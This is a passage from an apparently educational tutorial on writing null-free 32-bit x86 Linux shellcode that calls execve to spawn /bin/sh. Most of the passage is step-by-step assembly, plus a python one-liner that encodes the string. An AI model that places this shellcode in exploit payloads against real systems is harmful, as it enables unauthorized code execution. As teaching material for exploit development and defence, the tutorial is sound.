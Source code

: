 We have to put the string on in reverse order so we start with the null
terminator

{{< highlight nasm >}}
  xor eax, eax  ; zero out eax
  push eax      ; push the 0x0 on the stack
{{< / highlight >}}

we now have the null terminator on the stack so now lets get the rest of the
string. We'll use python to get the hex value for this
```
  $ python -c 'print "//bin/sh"[::-1].encode("hex")'
  68732f6e69622f2f
```
So we split this in half and then push it onto the stack

{{< highlight nasm >}}
  push 0x68732f6e   ; push the first half to the stack
  push 0x69622f2f   ; push the second half of the stack
  mov ebx, esp      ; move the address of the stack pointer to ebx (1st
                    ; parameter to execve
{{< / highlight >}}

Now we can do two things next
1. Push the 0x0 onto the stack that we can use for the 3rd parameter (address of
   which will go into EDX)
2. We can use the address stored in EBX (the address //bin/sh string) as the
   value of ECX

Point 2 easy to see if you visualize the stack
```
Top                 Bottom of Stack
0x00000000 //bin/sh 0x00000000
EDX        EBX
```
So now if we point ECX to the address of the //bin/sh string we have our array

{{< highlight nasm >}}
  push eax      ; push 0x0 on the stack
  mov  edx, esp ; move the address of 0x0 to the 3rd param
  push ebx      ; push the address of //bin/sh on the stack
  mov  ecx, esp ; move the address of the address of //bin/sh into ecx
                ; which is our secong parameter
{{< / highlight >}}

All that is left to do is to make the call

{{< highlight nasm >}}
  mov al, 11  ; move 11 into EAX (execve call is number 11)
  int 0x80    ; trigger the call
{{< / highlight >}}

Above you will notice I use the al register which the the 8bit version of the
EAX register, this is so there are no NULL bytes in the assembly as 32 bit
version of 11 in hex is 0x0000000b and the 8 bit version is 0x0b.
